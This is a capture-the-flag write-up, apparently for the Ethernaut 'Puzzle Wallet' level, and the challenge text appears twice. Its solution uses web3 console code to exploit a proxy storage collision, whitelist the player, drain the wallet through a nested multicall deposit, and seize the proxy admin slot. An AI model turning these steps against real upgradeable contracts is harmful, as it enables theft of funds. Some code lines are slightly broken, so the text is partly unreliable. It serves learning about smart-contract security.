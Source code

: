 Puzzle Wallet
Difficulty 7/10

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

You'll need to hijack this wallet to become the admin of the proxy.

Things that might help::

Understanding how delegatecalls work and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.Puzzle Wallet
Difficulty 7/10

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

You'll need to hijack this wallet to become the admin of the proxy.

Things that might help::

Understanding how delegatecalls work and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.

# Solution

I did everything directly from the console.

## 1st step

Exploit the storage conflit between Puzzle Wallet contract and the proxy contract. After compiling the abi of the proxy contract (on remix) you can easily invokes it's pendingAdmin function and change the owner of Puzzle Wallet.

Below is the proxy abi:

```
var proxy = await new web3.eth.Contract([
  {
   "inputs": [
    {
     "internalType": "address",
     "name": "_admin",
     "type": "address"
    },
    {
     "internalType": "address",
     "name": "_implementation",
     "type": "address"
    },
    {
     "internalType": "bytes",
     "name": "_initData",
     "type": "bytes"
    }
   ],
   "stateMutability": "nonpayable",
   "type": "constructor"
  },
  {
   "anonymous": false,
   "inputs": [
    {
     "indexed": true,
     "internalType": "address",
     "name": "implementation",
     "type": "address"
    }
   ],
   "name": "Upgraded",
   "type": "event"
  },
  {
   "stateMutability": "payable",
   "type": "fallback"
  },
  {
   "inputs": [],
   "name": "admin",
   "outputs": [
    {
     "internalType": "address",
     "name": "",
     "type": "address"
    }
   ],
   "stateMutability": "view",
   "type": "function"
  },
  {
   "inputs": [
    {
     "internalType": "address",
     "name": "_expectedAdmin",
     "type": "address"
    }
   ],
   "name": "approveNewAdmin",
   "outputs": [],
   "stateMutability": "nonpayable",
   "type": "function"
  },
  {
   "inputs": [],
   "name": "pendingAdmin",
   "outputs": [
    {
     "internalType": "address",
     "name": "",
     "type": "address"
    }
   ],
   "stateMutability": "view",
   "type": "function"
  },
  {
   "inputs": [
    {
     "internalType": "address",
     "name": "_newAdmin",
     "type": "address"
    }
   ],
   "name": "proposeNewAdmin",
   "outputs": [],
   "stateMutability": "nonpayable",
   "type": "function"
  },
  {
   "inputs": [
    {
     "internalType": "address",
     "name": "_newImplementation",
     "type": "address"
    }
   ],
   "name": "upgradeTo",
   "outputs": [],
   "stateMutability": "nonpayable",
   "type": "function"
  },
  {
   "stateMutability": "payable",
   "type": "receive"
  }
 ], instance)
```

now you can call `await proxy.methods.proposeNewAdmin(player).send({from: player})` and become the owner of the Puzzle Wallet contract

## step 2

add you address as a whitelisted address `await contract.addToWhitelist(player);`

# step 3

Use multicall to drain the wallet of fundsUse multicall to drain the wallet of funds

1 - get the bytes4 value of the deposit function so that we can call it from the multicall function

`var {data: puzzleDeposit } = await contract.deposit.request() // 0xd0e30db0`

2- create the deposit function using the multicall function

`var {data: multiCallFunc} = await contract.multicall.request([ puzzleDeposit]`

3 - create the withdraw all function function

`var {data: executeFunc} = await contract.execute.request(player, web3.eth.toWei(0.002, "ether"), [])`

```
var our3Functions = [
      puzzleDeposit,
      multiCallFunc,
      executeFunc,
    ];
```

call the muticall with the 3 functions reunited:

`await contract.multicall(our3Functions, { from: player, value: web3.utils.toWei('0.001', 'ether')});`

All the fund have been withdrew, you can not change the maxBalance in order to update the admin value from the proxy contract

`await contract.setMaxBalance(player)`
